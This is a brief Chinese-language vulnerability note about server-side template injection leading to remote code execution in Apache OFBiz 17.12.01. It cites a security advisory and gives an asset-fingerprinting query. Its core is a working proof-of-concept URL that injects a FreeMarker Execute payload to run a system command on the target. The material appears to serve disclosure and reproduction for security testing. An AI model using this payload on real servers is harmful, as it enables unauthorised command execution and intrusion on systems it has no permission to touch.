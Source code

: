 # 

# Apache OfBiz 远程代码执行 RCE

## 漏洞描述

Apache OfBiz 17.12.01容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-066-apache_ofbiz

## 网络测绘

```
app="Apache_OFBiz"
```

## 漏洞复现

poc：

```
https://localhost/ordermgr/control/FindRequest?foo=bar"ajaxEnabled=false/>${"freemarker.template.utility.Execute"?new()("id")}<FOO
```


